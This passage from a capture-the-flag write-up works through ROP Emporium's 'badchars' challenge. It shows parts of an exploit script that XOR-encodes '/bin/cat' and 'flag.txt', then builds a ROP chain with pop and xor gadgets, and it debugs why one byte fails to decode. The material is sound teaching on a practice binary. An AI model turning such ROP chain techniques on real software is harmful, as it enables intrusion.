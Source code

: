 ```python
...
```

Let's go to our terminal and type in `./win.py` and...

```
$ ./win.py
...
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
Failed to open file: flag.t\xd1t
...
```

Bruh...

Why didn't the encoded `'x'` (0xd1) get decoded back to normal `'x'` (0x78)?

Let's try a different string...

```python
...
# STEP 1
ENCODED_1 = encode(b"/bin/cat", extend_byte(0xa9), b"xga.")
...
```

```
$ ./win.py
...
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
Failed to open file: /bin/c\xc8t
...
```

Huh. It seems like the decoder doesn't seem to be able to get at the 7th byte in our string.

Let's see what is getting written to the buffer when we try to form our ROP chain to decode the 7th byte in the encoded "flag.txt".

```python
...
# STEP 3
for i in range(8):
    attack += POPR14R15
    attack += p64(0xa9) # pop the key into r14
    attack += p64(DATA+index) # the memory address of the byte we want to decode
    attack += XORBR15R14 # perform the XOR cipher with r14 as the key and r15 as the memory address
    if i == 6: # remember counting starts from 0
        print("DEBUG")
        print("DEBUG")
        print(POPR14R15)
        print(p64(KEY))
        print(p64(DATA+index))
        print(XORBR15R14)
        print("DEBUG")
...
```
